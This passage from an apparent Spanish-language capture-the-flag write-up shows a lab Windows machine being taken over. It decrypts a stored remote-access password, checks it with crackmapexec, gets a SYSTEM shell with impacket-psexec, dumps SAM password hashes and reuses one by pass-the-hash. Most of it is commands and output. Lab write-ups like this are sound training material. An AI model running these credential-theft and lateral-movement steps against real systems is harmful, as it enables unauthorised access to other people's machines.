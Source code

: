 ```
	[-] Version : 7.0.43148
		[+] SecurityPasswordAES : 255 155 28 115 214 107 206 49 172 65 62 174 19 27 70 79 88 47 108 226 209 225 243 218 126 141 55 107 38 57 78 91
		[+] decrypt password ...
		[+] decrypted password: !R3m0te!
```

`Validamos` las `credenciales` por `SMB`

```
# crackmapexec smb 10.129.230.172 -u 'Administrator' -p '!R3m0te!'        
SMB         10.129.230.172  445    REMOTE           [*] Windows 10 / Server 2019 Build 17763 x64 (name:REMOTE) (domain:remote) (signing:False) (SMBv1:False)
SMB         10.129.230.172  445    REMOTE           [+] remote\Administrator:!R3m0te! (Pwn3d!)
```

Nos `conectamos` usando `psexec` y `contraseña`

```
# impacket-psexec 'WORKGROUP/Administrator:!R3m0te!@10.129.230.172'  
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.230.172.....
[*] Found writable share ADMIN$
[*] Uploading file OJQiGrKB.exe
[*] Opening SVCManager on 10.129.230.172.....
[*] Creating service TmPR on 10.129.230.172.....
[*] Starting service TmPR.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

También podemos `dumpear` la `SAM (Security Account Manager)` y `conectarnos` usando `psexec`

```
# crackmapexec smb 10.129.230.172 -u 'Administrator' -p '!R3m0te!' --sam
SMB         10.129.230.172  445    REMOTE           [*] Windows 10 / Server 2019 Build 17763 x64 (name:REMOTE) (domain:remote) (signing:False) (SMBv1:False)
SMB         10.129.230.172  445    REMOTE           [+] remote\Administrator:!R3m0te! (Pwn3d!)
SMB         10.129.230.172  445    REMOTE           [+] Dumping SAM hashes
SMB         10.129.230.172  445    REMOTE           Administrator:500:aad3b435b51404eeaad3b435b51404ee:86fc053bc0b23588798277b22540c40c:::
SMB         10.129.230.172  445    REMOTE           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.230.172  445    REMOTE           DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.230.172  445    REMOTE           WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:05c9ce2fb8aad311f8447afa1398fb43:::
SMB         10.129.230.172  445    REMOTE           [+] Added 4 SAM hashes to the database

# impacket-psexec WORKGROUP/Administrator@10.129.230.172 -hashes 'aad3b435b51404eeaad3b435b51404ee:86fc053bc0b23588798277b22540c40c'  

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.230.172.....
[*] Found writable share ADMIN$
[*] Uploading file sQpVZdSv.exe
[*] Opening SVCManager on 10.129.230.172.....
[*] Creating service FrWs on 10.129.230.172.....
[*] Starting service FrWs.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
```